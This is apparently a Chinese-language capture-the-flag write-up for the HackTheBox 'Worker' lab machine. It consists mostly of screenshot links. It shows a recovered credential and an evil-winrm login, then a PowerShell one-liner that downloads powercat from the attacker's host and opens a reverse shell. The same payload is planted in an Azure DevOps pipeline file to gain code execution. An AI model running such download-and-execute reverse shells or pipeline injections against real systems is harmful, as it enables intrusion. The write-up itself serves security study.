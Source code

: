 

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-21-41-56.png)

`ps> [Environment]::GetLogicalDrives()`

![]({{ site.url }}/assets/Worker_203.assets/image-20201104215656687.png)

发现盘符w

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-21-59-38.png)

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-22-03-52.png)

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-22-04-26.png)

得到很多凭证，查看用户目录，查找我们想得到的用户

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-22-05-40.png)

得到凭证
`robisl:wolves11`
靶机是打开了5985的使用winrm登陆

`evil-winrm -u robisl -p wolves11 -i 10.10.10.203`

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-22-13-31.png)



使用新凭证重新登录

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-22-22-05.png)

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-22-22-57.png)

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-22-23-58.png)

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-22-24-30.png)

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-22-25-34.png)

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-22-26-13.png)


`powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.78:8080/powercat.ps1');powercat -c 10.10.14.78 -p 1337 -e cmd`

```yml
# Starter pipeline
# Start with a minimal pipeline that you can customize to build and deploy your code.
# Add steps that build, run tests, deploy, and more:
# https://aka.ms/yaml

trigger:
- master

pool: 'Setup'

steps:
- powershell: IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.78:8080/powercat.ps1');powercat -c 10.10.14.78 -p 1337 -ep
  displayName: 'Run a one-line script'
```
